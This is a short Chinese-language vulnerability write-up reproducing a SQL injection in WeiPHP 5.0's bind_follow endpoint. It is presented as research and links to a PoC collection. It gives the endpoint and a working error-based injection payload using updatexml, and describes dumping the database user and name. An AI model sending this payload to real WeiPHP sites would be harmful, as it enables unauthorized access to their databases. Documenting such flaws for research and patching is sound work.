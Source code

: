 # WeiPHP5.0 SQL注入漏洞2

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，前面分析了一处由于拼接造成的注入，这里复现一下 `WeiPHP5.0`的另一个`SQL`注入漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

访问如下链接并抓包

```php
/index.php/home/Index/bind_follow
publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```

`post`或者 `get`都可以，这里开了调试模式，因此可以使用报错注入

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839360763-e1b05583-a112-4ff3-bf03-6e571b9450f5.png)

爆用户名

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839676508-25cdbda5-2cad-4080-b45f-9e94302caf65.png)

爆数据库

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839709664-0e27aa69-95a8-467c-91c4-7aeae4325a1c.png)

## 总结

之前对于 `thinkphp`开发的系统很少去弄 `SQL`相关的分析，因为觉得 `thinkphp`可能做得比较完美了，但经过这一次的分析，觉得还是很有开发的潜力。

## 参考链接

- `http://wiki.peiqi.tech/wiki/cms/WeiPHP/WeiPHP5.0%20bind_follow%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html`



`github` 链接：`https://github.com/d5shenwu/vulPOC`



